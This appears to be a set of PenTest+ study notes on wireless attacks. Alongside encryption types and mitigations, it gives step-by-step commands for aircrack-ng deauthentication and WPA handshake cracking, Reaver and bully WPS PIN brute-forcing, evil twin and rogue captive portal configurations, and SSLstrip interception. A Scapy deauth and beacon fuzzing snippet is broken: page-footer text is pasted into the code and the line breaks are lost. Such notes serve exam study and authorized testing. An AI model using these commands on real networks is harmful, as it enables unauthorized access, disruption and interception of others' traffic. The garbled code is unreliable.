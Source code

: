 
## Wireless Security  
**Encryption Types**
- **WEP** (Wired Equivalent Privacy): RC4 cipher with 40‑ or 128‑bit key; **weak 24‑bit IV** → trivial to crack
- **WPA** (Wi‑Fi Protected Access): TKIP + RC4 + MIC; **fixes WEP IV** but still TKIP vulnerabilities → upgrade to WPA2
- **WPA2**: AES‑CCMP; supports **Personal** (PSK) & **Enterprise** (RADIUS) modes; strong but PK dictionary attacks possible
- **WPA3**: SAE (Dragonfly) key exchange, **forward secrecy**, 192‑bit enterprise mode; currently **no known practical attacks**

> Look into Diffie Hellman Key exchange protocol to understand how the WPA3's SAE protocol is so secure

**Common Vulnerabilities & Mitigations**
- **WEP**: crack IVs via passive capture; **mitigation**: disable WEP, use WPA2/3
- **WPA**: vulnerable TKIP; **mitigation**: disable TKIP, use WPA2/3
- **WPA2**: PSK guessable; **mitigation**: strong passphrases or move to WPA3
- **WPS**: 8‑digit PIN brute‑force; **mitigation**: disable WPS
- **MAC Filtering**: trivial to bypass by MAC spoofing; **mitigation**: use encryption + 802.1X

---

## Wireless Signal Exploitation  
**Signal Jamming**
- Overwhelm channel with noise → disrupt comms; often **illegal**; avoid in production

**Wardriving**
- Map Wi‑Fi footprints by driving with scanning tools
- **Tools**:  
  - **WiGLE.net**: global Wi‑Fi map & analytics  
  - **inSSIDer**: real‑time scan (SSID, BSSID, channel, security)
- **Ethical Use**: only collect metadata, no unauthorized access

---

## Aircrack‑ng Suite  
**Purpose**: capture & crack WEP/WPA PSK handshakes

### Deauthentication Attack  
1. **Monitor mode**:  
   ```bash
   airmon-ng start wlan0
```

2. **Scan**:
    ```bash
    airodump-ng wlan0mon
    ```

3. **Capture** (target BSSID AA:BB:CC:DD:EE:FF on CH 6):
    ```bash
    airodump-ng --bssid AA:BB:CC:DD:EE:FF --channel 6 --write capture wlan0mon
    ```
    
4. **Deauth** (send 10 frames):
    ```bash
    aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon
    ```
    
5. **Crack PSK** (wordlist attack):
```bash
    aircrack-ng -w /path/to/wordlist.txt -b AA:BB:CC:DD:EE:FF capture-01.cap
    ```

---

## WPS PIN Attacks (Reaver)

````bash
# Start monitor mode
airmon-ng start wlan0

# Identify AP with WPS open
wash -i wlan0mon

# Brute‑force WPS PIN
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv

# Find actual password with pin number
bully -b <mac> -p <pin> wlan0mon
````

> **Output**: displays cracked PIN & WPA PSK once found

---

## Captive Portal Attacks  
**Evil Twin + Rogue AP** using `hostapd` & `dnsmasq`

```bash
# hostapd.conf snippet
driver=nl80211
interface=wlan0mon
essid=Free_WiFi
channel=6

# dnsmasq.conf snippet
interface=wlan0mon
dhcp-range=10.0.0.50,10.0.0.150,12h
address=/#/10.0.0.1
````

- Redirect all DNS → captive portal on 10.0.0.1

---

## Evil Twin Attack

```bash
# Create rogue AP
airbase-ng -e "Hotel_WiFi" -c 11 wlan0mon
wifipumpkin3 # Metasploitable style prompt
```
Use mitmproxy or SSLstrip to intercept HTTP(S) sessions.

---

## Kismet

**Passive discovery** for Wi‑Fi, Bluetooth, Zigbee
```bash
# Start Kismet server
kismet -c wlan0mon --log-prefix=kismet-log --insecure
```

- **Detects hidden SSIDs** during client handshakes
- **Logs pcap** for later analysis with Wireshark

---

## Wi‑Fi Protocol Fuzzing
- Technique used to identify vulns in Wi-Fi by sending random or unexpected data and see how they respond

**Scapy** – craft malformed 802.11 & Wireshark
```python
from scapy.all import * 
deauth_frame = RadioTap() / \ Dot11(addr1="ff:ff:ff:ff:ff:ff", addr2="00:11:22:33:44:55", addr3="00:11:22:33:44:55") / \ Dot11Deauth(reason=99) 
sendp(deauth_frame, iface="wlan0", count=10, inter=0.1) 
beacon_frame = RadioTap() / \ 309 https://www.DionTraining.com CompTIA PenTest+ (PT0-003) (Study Guide) Dot11(addr1="ff:ff:ff:ff:ff:ff", addr2="00:11:22:33:44:55", addr3="00:11:22:33:44:55") / \ Dot11Beacon(cap="ESS+privacy") / \ Dot11Elt(ID="SSID", info="Unexpected_SSID")
sendp(beacon_frame, iface="wlan0", count=10, inter=0.1)
```
- **Observe** crashes or misbehavior → potential driver/firmware bug